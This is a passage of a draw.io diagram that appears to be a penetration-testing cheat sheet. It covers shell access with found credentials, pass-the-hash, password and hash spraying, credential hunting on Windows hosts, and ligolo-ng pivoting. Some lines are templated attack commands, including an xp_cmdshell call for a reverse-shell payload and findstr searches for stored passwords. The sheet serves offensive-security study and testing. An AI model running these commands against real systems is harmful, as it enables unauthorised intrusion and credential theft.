        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-17" source="K5Gh5GtL-8Vc5NBjFgpw-43" target="K5Gh5GtL-8Vc5NBjFgpw-18" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-50" y="580" />
              <mxPoint x="-50" y="185" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-54" value="Gaining a shell / using found credentials" style="swimlane;whiteSpace=wrap;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="930" y="260" width="1190" height="820" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-55" value="Clear text credentials (user &amp;amp; password)" style="swimlane;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-54" vertex="1">
          <mxGeometry x="23" y="40" width="1147" height="330" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-58" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-56" target="K5Gh5GtL-8Vc5NBjFgpw-57" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-56" value="ssh" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="17.5" y="40" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-57" value="ssh &amp;lt;user&amp;gt;@&amp;lt;ip&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="177" y="40" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-62" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-60" target="K5Gh5GtL-8Vc5NBjFgpw-61" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-60" value="evil-winrm" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="17.5" y="100" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-61" value="evil-winrm -ip &amp;lt;ip&amp;gt; -u &amp;lt;domain/user&amp;gt; -p &amp;lt;password&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="177" y="100" width="293" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-67" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-63" target="K5Gh5GtL-8Vc5NBjFgpw-64" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-63" value="Impacket-psexec&lt;br&gt;&lt;br&gt;Impacket-smbexec&lt;br&gt;&lt;br&gt;Impacket-wmiexec" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="17.5" y="150" width="120" height="100" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-64" value="impacket-&amp;lt;chosen method&amp;gt; &#39;&amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;password&amp;gt;@&amp;lt;ip&amp;gt;&#39;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="177" y="185" width="373" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-68" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-65" target="K5Gh5GtL-8Vc5NBjFgpw-66" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-65" value="mssqlclient" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="17.5" y="275" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-71" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-66" target="K5Gh5GtL-8Vc5NBjFgpw-69" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-66" value="Impacket-mssqlclient -windowsauth &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;password&amp;gt;@&amp;lt;ip&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="167" y="277.5" width="410" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-73" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" source="K5Gh5GtL-8Vc5NBjFgpw-69" target="K5Gh5GtL-8Vc5NBjFgpw-70" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-69" value="enable_xp_cmdshell" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="607" y="278.75" width="120" height="27.5" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-70" value="EXEC xp_cmdshell &#39;&amp;lt;powershell base64 reverse shell payload&amp;gt;&#39;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-55" vertex="1">
          <mxGeometry x="753" y="276" width="380" height="33" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-74" value="PTH (user and hashed ntlm password)" style="swimlane;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-54" vertex="1">
          <mxGeometry x="20" y="390" width="1150" height="220" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-77" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" source="K5Gh5GtL-8Vc5NBjFgpw-75" target="K5Gh5GtL-8Vc5NBjFgpw-76" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-75" value="smbclient" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="20.5" y="45" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-76" value="&lt;div&gt;smbclient -L //&amp;lt;target-ip&amp;gt; -U &amp;lt;username&amp;gt;%&amp;lt;NTLM hash&amp;gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="180" y="47.5" width="320" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-80" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" source="K5Gh5GtL-8Vc5NBjFgpw-78" target="K5Gh5GtL-8Vc5NBjFgpw-79" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-78" value="evil-winrm" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="20.5" y="100" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-79" value="&lt;div&gt;evil-winrm -i &amp;lt;target-ip&amp;gt; -u &amp;lt;username&amp;gt; -H &amp;lt;NTLM hash&amp;gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="180" y="102.5" width="330" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-83" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" source="K5Gh5GtL-8Vc5NBjFgpw-81" target="K5Gh5GtL-8Vc5NBjFgpw-82" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-81" value="impacket-&amp;lt;module&amp;gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="20.5" y="160" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-82" value="&lt;div&gt;impacket-&amp;lt;module&amp;gt; &amp;lt;username&amp;gt;:&amp;lt;NTLM hash&amp;gt;@&amp;lt;target-ip&amp;gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-74" vertex="1">
          <mxGeometry x="180" y="161.25" width="340" height="32.5" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-84" value="Password / Hash spraying" style="swimlane;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-54" vertex="1">
          <mxGeometry x="20" y="630" width="1150" height="170" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-90" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" source="K5Gh5GtL-8Vc5NBjFgpw-85" target="K5Gh5GtL-8Vc5NBjFgpw-86" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-85" value="Password spraying with nxc" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" vertex="1">
          <mxGeometry x="20.5" y="45" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-86" value="&lt;div&gt;nxc smb/winrm/etc.&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;lt;target-ip&amp;gt; or &amp;lt;ip-range&amp;gt;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp; -u users.txt -p passwords.txt&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" vertex="1">
          <mxGeometry x="180" y="47.5" width="440" height="35" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-87" value="&lt;div&gt;nxc smb/winrm/etc.&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;lt;target-ip&amp;gt; or &amp;lt;ip-range&amp;gt;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;nbsp;-u users.txt -H hashes.txt&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" vertex="1">
          <mxGeometry x="180" y="110" width="420" height="30" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-89" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" source="K5Gh5GtL-8Vc5NBjFgpw-88" target="K5Gh5GtL-8Vc5NBjFgpw-87" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="K5Gh5GtL-8Vc5NBjFgpw-88" value="Hash spraying with nxc" style="rounded=1;whiteSpace=wrap;html=1;" parent="K5Gh5GtL-8Vc5NBjFgpw-84" vertex="1">
          <mxGeometry x="20.5" y="105" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-0" value="Lateral Movement - Post-Compromise Enumertion - Discovering Credentials" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="1580" y="1290" width="770" height="600" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-1" target="fJw2BMpg4anfNU4B0Cz6-3">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-1" value="Navigate all user&#39;s home directories" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="28.75" y="62" width="147.5" height="60" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-2" target="fJw2BMpg4anfNU4B0Cz6-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-2" value="Check admin/users&#39; powershell history" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="28.75" y="160" width="147.5" height="60" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-3" target="fJw2BMpg4anfNU4B0Cz6-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-3" target="fJw2BMpg4anfNU4B0Cz6-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-3" value="Locate interesting .exe, .zip, etc. and enumerate these" style="ellipse;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="240" y="52" width="170" height="80" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-5" value="type &quot;%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt&quot;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="230.75" y="174.13" width="510" height="31.75" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-7" target="fJw2BMpg4anfNU4B0Cz6-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-7" value="Check Recycling bin for deleted files" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="30" y="250" width="147.5" height="60" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-8" value="dir /a /s C:\$Recycle.Bin\*" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="230.88" y="264.13" width="190.75" height="31.75" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-10" value="strings sus.exe" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="470" y="52" width="120" height="32" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-13" value="exiftool sus.exe" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="470" y="100" width="120" height="32" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-15" target="fJw2BMpg4anfNU4B0Cz6-16">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-15" target="fJw2BMpg4anfNU4B0Cz6-35">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-15" target="fJw2BMpg4anfNU4B0Cz6-37">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-15" value="Enumerate web-app directories (e.g. apache, xampp etc.)" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="30" y="350" width="146.25" height="60" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-16" value="findstr /spin /i &quot;password&quot; C:\*.*" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="230.75" y="320" width="330" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-35" value="findstr /spin /i &quot;&amp;lt;domain username&amp;gt;&quot; C:\*.*" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="230.75" y="365" width="330" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-37" value="findstr /spin /i &quot;cred&quot; C:\*.*" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="230.75" y="410" width="330" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-43" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-40" target="fJw2BMpg4anfNU4B0Cz6-41">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-44" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-40" target="fJw2BMpg4anfNU4B0Cz6-42">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-0" source="fJw2BMpg4anfNU4B0Cz6-40" target="fJw2BMpg4anfNU4B0Cz6-45">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-40" value="Locate internal ports / services potentially running with elevated privileges" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="28.75" y="475" width="146.25" height="80" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-41" value="mysql 3306" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="220" y="460" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-42" value="web apps on internal IP e.g. Jenkins" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="220" y="500" width="220" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-45" value="mssql" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry x="220" y="540" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-49" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="fJw2BMpg4anfNU4B0Cz6-47" target="fJw2BMpg4anfNU4B0Cz6-0">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-47" value="Move onto other privilege escalation methods if there is no exploit to abiuse" style="ellipse;whiteSpace=wrap;html=1;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="120" y="1150" width="230" height="80" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-50" value="&lt;span style=&quot;font-weight: 400;&quot;&gt;ligolo-ng - Double Pivoting&lt;/span&gt;" style="swimlane;whiteSpace=wrap;html=1;startSize=40;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="520" y="260" width="330" height="840" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-51" value="setup a pivot into the interal network" style="ellipse;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-50">
          <mxGeometry x="95" y="50" width="140" height="70" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-52" value="On kali" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-50">
          <mxGeometry x="20" y="140" width="300" height="470" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-53" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-52" source="fJw2BMpg4anfNU4B0Cz6-54" target="fJw2BMpg4anfNU4B0Cz6-57">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-54" value="sudo ligolo-proxy -selfcert" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="10" y="40" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-73" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-52" source="fJw2BMpg4anfNU4B0Cz6-55" target="fJw2BMpg4anfNU4B0Cz6-69">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-55" value="sudo ip route add &amp;lt;ip range&amp;gt;/24 dev ligolo0" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="10" y="260" width="270" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-56" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="fJw2BMpg4anfNU4B0Cz6-52" source="fJw2BMpg4anfNU4B0Cz6-57" target="fJw2BMpg4anfNU4B0Cz6-55">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-57" value="&lt;div&gt;session&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;ifcreate ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;tunnel_start --tun ligolo0&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601 --tcp&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="10" y="110" width="270" height="130" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-67" value="MS01 Session on kali" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="-1" y="87" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="fJw2BMpg4anfNU4B0Cz6-68" value="MS02 Session on kali" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="fJw2BMpg4anfNU4B0Cz6-52">
          <mxGeometry x="-1" y="306" width="140" height="30" as="geometry" />
        </mxCell>
